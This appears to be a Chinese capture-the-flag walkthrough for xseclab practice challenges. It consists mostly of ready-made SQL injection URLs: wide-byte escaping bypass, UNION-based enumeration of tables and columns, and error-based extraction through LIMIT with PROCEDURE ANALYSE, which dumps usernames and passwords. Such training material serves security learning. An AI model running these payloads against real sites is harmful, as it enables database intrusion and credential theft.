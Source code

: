 ```bash
http://lab1.xseclab.com/base13_ead1b12e47ec7cc5390303831b779d47/index.php?^%5f^=data:,(●'◡'●)
```
## 注入关

## 宽字节注入
输入%df'出现报错
```bash
http://lab1.xseclab.com/sqli4_9b5a929e00e122784e44eddf2b6aa1a0/index.php?id=2%df'
```
判断字段长短
```bash
http://lab1.xseclab.com/sqli4_9b5a929e00e122784e44eddf2b6aa1a0/index.php?id=2%bf' order by 3 %23
```
得到显示位

```bash
http://lab1.xseclab.com/sqli4_9b5a929e00e122784e44eddf2b6aa1a0/index.php?id=2%bf' union select 1,2,3 %23
```
显示位为 2,3

查看表名
```bash
http://lab1.xseclab.com/sqli4_9b5a929e00e122784e44eddf2b6aa1a0/index.php?id=2%bf' union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema=database()) %23
```
得到字段名
```bash
http://lab1.xseclab.com/sqli4_9b5a929e00e122784e44eddf2b6aa1a0/index.php?id=2%bf' union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name=0x7361655f757365725f73716c6934) %23
```
得到字段数据
```bash
http://lab1.xseclab.com/sqli4_9b5a929e00e122784e44eddf2b6aa1a0/index.php?id=2%bf' union select 1,2,(select group_concat(title_1,content_1) from sae_user_sqli4) %23
```
## limit注入
猜测后台是
```bash
select * from  table limit start,num
```
发现只有limit参数有用，num没影响

遇到limit的注入的时候，可以使用如下的语句进行报错注入。
```bash
select field from user where id=XXX order by id limit 1,1 procedure analyse (extractvalue(rand(),concat(0x3a,SQL注入语句)),1);
```
得到表名article,user
```bash
http://lab1.xseclab.com/sqli5_5ba0bba6a6d1b30b956843f757889552/index.php?start=0%20procedure%20analyse(extractvalue(rand(),concat(0x3a,(select%20group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=database()))),1)%23%20&num=100%20%23
```
得到user表中的字段id,username,password,lastloginI
```bash
http://lab1.xseclab.com/sqli5_5ba0bba6a6d1b30b956843f757889552/index.php?start=0%20procedure%20analyse(extractvalue(rand(),concat(0x3a,(select%20group_concat(column_name)%20from%20information_schema.columns%20where%20table_name=0x75736572))),1)%23%20&num=100%20%23
```
字段数据
```bash
http://lab1.xseclab.com/sqli5_5ba0bba6a6d1b30b956843f757889552/index.php?start=6 procedure analyse(extractvalue(rand(),concat(0x3a,(select group_concat(username,password) from user))),1)%23
&num=100 %23
```